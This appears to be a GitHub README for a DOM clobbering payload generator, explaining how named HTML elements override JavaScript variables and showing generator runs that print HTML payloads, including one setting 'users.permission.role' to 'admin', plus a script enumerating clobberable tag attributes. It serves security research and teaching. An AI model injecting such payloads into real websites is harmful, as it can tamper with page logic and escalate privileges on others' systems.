 # DOM Clobbering Generator

Full article on [OffensiveWeb](https://www.offensiveweb.com/docs/topics/dom-clobbering/).

## Getting started

**DOM Clobbering** is a vulnerability that originates from a naming collision between JavaScript variables and named HTML markups, where browsers replace pre-existing content of an undefined variable with an HTML element when the variable name and the element’s `name` (or `id`) attribute match.

## Attributes

### Attribute id

Example with a random tag with a `id` attribute:

```html
<h1 id="hd">Super title !</h1>

<script>
console.log(hd);            // <h1 id="hd">Super title !</h1>
console.log(window.hd);     // <h1 id="hd">Super title !</h1>
console.log(document.hd);   // undefined
console.log(hd.toString()); // [object HTMLHeadingElement]
console.log(hd.innerText);  // Super title !
</script>
```

### Attribute name

Example with a `form` tag with a `name` attribute:

```html
<form name="fm" method="GET" action="/login"></form>

<script>
console.log(fm);          // <form name="fm"></form>
console.log(window.fm);   // <form name="fm"></form>
console.log(document.fm); // <form name="fm"></form>
console.log(fm.method);   // get
console.log(fm.action);   // http://localhost/login
</script>
```

List of tags which supports the name attribute:
- `embed`, `form`, `iframe`, `image`, `img`, `object`

## Tool usage

### Depth 2

```bash
$ python3 generator.py video.lang 'Hello!'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'video.lang'
variable_value = 'Hello!'
depth = 2
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<a id="video" lang="Hello!"></a>
******************** PAYLOAD #2 ********************
<form id="video" lang="Hello!"></form>
******************** PAYLOAD #3 ********************
<form name="video" lang="Hello!"></form>
******************** PAYLOAD #4 ********************
<input id="video" lang="Hello!"></input>
******************** PAYLOAD #5 ********************
<iframe id="video" lang="Hello!"></iframe>
******************** PAYLOAD #6 ********************
<iframe name="video" lang="Hello!"></iframe>
******************** PAYLOAD #7 ********************
<a id="video"></a><a id="video" name="lang" href="a:Hello!"></a>
```

### Depth 3

```bash
$ python3 generator.py users.permission.role 'admin'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'users.permission.role'
variable_value = 'admin'
depth = 3
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<form id="users" name="permission" role="admin"></form>
<form id="users">
******************** PAYLOAD #2 ********************
<form id="users" name="permission">
    <input id="role" value="admin">
</form>
<form id="users">
```

### Depth 4

```bash
$ python3 generator.py music.metadata.sound.max '100%'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'music.metadata.sound.max'
variable_value = '100%'
depth = 4
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<form id="music" name="metadata">
    <input id="sound" max="100%">
</form>
<form id="music">
```

## attributes.json 

```js
const tags = ["a", "abbr", "acronym", "address", "applet", "area", "article", "aside", "audio", "b", "base", "bdi", "bdo", "bgsound", "big", "blink", "blockquote", "body", "br", "button", "canvas", "caption", "center", "cite", "code", "col", "colgroup", "data", "datalist", "dd", "del", "details", "dfn", "dialog", "dir", "div", "dl", "dt", "em", "embed", "fieldset", "figcaption", "figure", "font", "footer", "form", "frame", "frameset", "h1", "head", "header", "hgroup", "hr", "html", "i", "iframe", "image", "img", "input", "ins", "kbd", "keygen", "label", "legend", "li", "link", "main", "map", "mark", "marquee", "menu", "menuitem", "meta", "meter", "nav", "nobr", "noembed", "noframes", "noscript", "object", "ol", "optgroup", "option", "output", "p", "param", "picture", "plaintext", "portal", "pre", "progress", "q", "rb", "rp", "rt", "rtc", "ruby", "s", "samp", "script", "section", "select", "slot", "small", "source", "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup", "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead", "time", "title", "tr", "track", "tt", "u", "ul", "var", "video", "wbr", "xmp"];
const attributes = ["accept", "accept-charset", "accesskey", "action", "align", "allow", "alt", "async", "autocapitalize", "autocomplete", "autofocus", "autoplay", "background", "bgcolor", "border", "buffered", "capture", "challenge", "charset", "checked", "cite", "class", "code", "codebase", "color", "cols", "colspan", "content", "contenteditable", "contextmenu", "controls", "coords", "crossorigin", "csp", "data", "data-*", "datetime", "decoding", "default", "defer", "dir", "dirname", "disabled", "download", "draggable", "enctype", "enterkeyhint", "for", "form", "formaction", "formenctype", "formmethod", "formnovalidate", "formtarget", "headers", "height", "hidden", "high", "href", "hreflang", "http-equiv", "id", "integrity", "intrinsicsize", "inputmode", "ismap", "itemprop", "keytype", "kind", "label", "lang", "language", "loading", "list", "loop", "low", "manifest", "max", "maxlength", "minlength", "media", "method", "min", "multiple", "muted", "name", "novalidate", "open", "optimum", "pattern", "ping", "placeholder", "playsinline", "poster", "preload", "readonly", "referrerpolicy", "rel", "required", "reversed", "role", "rows", "rowspan", "sandbox", "scope", "scoped", "selected", "shape", "size", "sizes", "slot", "span", "spellcheck", "src", "srcdoc", "srclang", "srcset", "start", "step", "style", "summary", "tabindex", "target", "title", "translate", "type", "usemap", "value", "width", "wrap"];

let valids = {};
tags.forEach(tag => {
    attributes.forEach(attribute => {
        if (attribute != "id" && attribute != "name") {
            document.body.innerHTML = `<${tag} id="xyz" ${attribute}="xanhacks"></${tag}>`;
            try {
                if (eval(`xyz.${attribute} == "xanhacks"`)) {
                    if (!valids.hasOwnProperty(tag)) {
                        valids[tag] = [];
                    }
                    valids[tag].push(attribute);
                }
            } catch (e) {}
        }
    });
});
console.log(valids);
```

## References

- [PortSwigger - DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- JavaScript for hackers - Gareth Heyes (book)
- [OWASP CS - DOM Clobbering](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html)
- [DOM Clobbering - Frederik Braun](https://www.htmhell.dev/adventcalendar/2022/12/)
- [WHATWG - Named access on the Window object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)
- [It’s (DOM) Clobbering Time: Attack Techniques, Prevalence, and Defenses](https://scnps.co/papers/sp23_domclob.pdf)
